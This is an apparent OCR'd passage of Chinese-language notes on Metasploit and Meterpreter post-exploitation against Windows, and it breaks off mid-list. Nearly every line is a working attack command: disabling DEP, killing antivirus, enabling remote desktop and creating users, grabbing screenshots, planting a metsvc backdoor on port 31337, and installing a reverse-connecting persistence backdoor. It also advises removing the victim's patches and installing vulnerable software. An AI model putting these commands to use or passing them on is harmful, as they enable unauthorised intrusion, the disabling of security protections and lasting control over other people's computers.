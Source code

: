 bcdedit.exe /set {current} nx AlwaysOff

在meterpreter中

run killav （ ） 关闭杀毒软件

开启远程桌面（3389端口）netstat -ano

run post/windows/manage/enable_rdp

run getgui -e （这个命令也是开启远程桌面的，但是不太靠谱）

run getgui -u [用户名] -p [密码] 创建用户（users）

kali使用图形界面控制远程桌面

rdesktop -u [用户名] -p [密码] [目标ip]

------

截图

**load espia**

screengrab

## 永久后门植入

meterpreter shell 运行是在内存里的，重启消失，所以需要植入后门

卸载对方的补丁

给对方安装一些有漏洞的软件（比如说ftp程序，输入法…….）

msf永久后门

run metsvc -A 设置端口上传后门文件

会开启一个31337端口

jobs可以看到metsvc_bind_tcp

连接

use exploit/multi/handler

set payload windows/metsvc_bind_tcp

set rhost [目标ip]

set lport 31337

exploit

------

植入启动型后门

在session中

run persistence -A -S -U -i 10 -p 4321 -r [自己ip]

或者
